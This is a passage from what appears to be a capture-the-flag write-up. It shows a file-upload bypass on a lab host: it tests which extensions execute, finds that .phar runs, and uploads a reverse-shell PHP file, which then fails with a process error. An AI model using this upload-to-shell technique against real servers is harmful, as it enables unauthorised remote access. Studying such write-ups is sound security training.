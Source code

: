It seems some of the extensions returned success. We only need one. Testing `.phar` returns the echo output we set on the uploaded file.

```bash
$ curl http://10.10.11.241:8080/uploads/test.phar
kali
```

We create a `shell.phar` file with a reverse shell php code and upload it.

![Port 8080 - RevShell Ivan](images/port_8080_rev_shell_ivan.png)

But when we try to execute it, we get an error.

```bash
$ curl http://10.10.11.241:8080/uploads/shell.phar
<pre>DAEMONIZE: pcntl_fork() does not exists, moving on...
PROC_ERROR: Cannot start the shell
</pre>
```
